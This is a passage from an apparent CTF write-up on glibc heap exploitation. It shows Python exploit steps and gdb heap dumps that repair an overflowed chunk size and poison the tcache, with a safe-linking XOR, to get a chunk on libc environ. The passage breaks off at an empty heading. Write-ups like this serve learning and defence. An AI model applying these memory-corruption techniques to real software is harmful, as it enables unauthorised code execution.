 # poison tcache to get a chunk on libc environ

Before moving forward we first have to clean up the mess we created after overflowing into B to leak libc, we have to do that because as it is now, there is a chunk present on the heap with size  0x5858585858585858 which is... well... a lot. 

so to do that we overflow again into B and fix the mess

``` py

edit(padd(b'\x08'),padd(b'\x01\x00\x08'),b'BBBBBBBB'+b'\x00'*8+p64(0x501)) ###
```

heap layout : 


```
0x5565109c0290:	0x0000000000000000	0x0000000000000021 <- A
0x5565109c02a0:	0x0000000000000001	0x4242424242424242
0x5565109c02b0:	0x0000000000000000	0x0000000000000501 <- B
0x5565109c02c0:	0x00007f17c31d9cc0	0x00007f17c31d9cc0
0x5565109c02d0:	0x0000000000000000	0x0000000000000000 <- C
0x5565109c02e0:	0x0000000000000001	0x4343434343434343
0x5565109c02f0:	0x0000000000000000	0x0000000000000000
0x5565109c0300:	0x0000000000000000	0x0000000000000000
0x5565109c0310:	0x0000000000000000	0x0000000000000000
0x5565109c0320:	0x0000000000000000	0x0000000000000071
```

now B is back to it's original fake size of 0x501.

For a successful tcache poison we first need some pointers inside tcache. What we want is this X->Y->Z where we overwrite X in to libc_environ which we calculate using the libc leak and get X->libc_environ.

lets do just that!

We start of by getting X,Y and Z into tcache(X,Y,Z correspond excatly to Pad 0,4,5). Pad 4,5 are irrelevant, the important thing is that pad 0 is the last of the 3 getting freed and so it will be at the head of the tcache list and we can overwrite it's pointer.

``` py
delete(padd(b'\x13')) # Pad 4 -> Z
delete(padd(b'\x14')) # Pad 5 -> Y
delete(padd(b'\x0f')) # Pad 0 -> X
```


```py

create(padd(int.to_bytes(33,1,'little')), '64',b'T'*8) #allocation in oreder to allign overlapping chunk B with Pad 0 

kjer_smo = leak + 0x330

kje_bi_radi_bli = leak_libc + 0x81f0
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)


create(padd(int.to_bytes(34,1,'little')), '64',b'T'*8 + b'\x00'*8+p64(0x71)+ p64(ftakni_ga_not)) #this allocation returns a pointer pointing exactly 0x20 above Pad 0

```
heap layout :
